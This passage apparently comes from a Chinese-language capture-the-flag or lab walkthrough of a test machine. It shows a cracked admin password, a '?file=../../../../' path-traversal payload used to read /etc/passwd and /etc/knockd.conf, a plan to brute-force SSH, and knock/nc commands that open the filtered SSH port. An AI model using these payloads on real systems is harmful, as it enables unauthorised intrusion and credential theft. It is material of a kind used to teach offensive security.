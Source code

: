 密码进行md5解密得到，

`transorbital1`

尝试登录后台

![image-20240301161400204](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301161400204.png)

#### 文件包含

发现页面下面提示文件不存在，猜测可能有文件包含漏洞

盲猜`?file=`

![image-20240301161743562](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301161743562.png)

可以尝试多加几个../在前面

成功包含出passwd文件

![image-20240301161904286](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301161904286.png)

发现这里的用户名和我们从数据库users得到的用户名，有一样的，可以进行ssh爆破

但22端口是过滤状态，猜测可能有knockd服务，读取一下knockd的配置文件

`?file=../../../../etc/knockd.conf`

```shell
[options]
	UseSyslog

[openSSH]
	sequence    = 7469,8475,9842 # 这里我们需要访问这三个端口，才能开启ssh
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469 # 同样，要关闭ssh，需要返回这三个端口(就是上面端口的反序)
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

#### SSH端口敲门

在kali中我们可以使用knockd命令进行访问端口

```
knock 192.168.238.52 7469 8475 9842
```

也可以使用nc命令访问

```shell
nc 192.168.238.52 7469
nc 192.168.238.52 8475
nc 192.168.238.52 9842
```
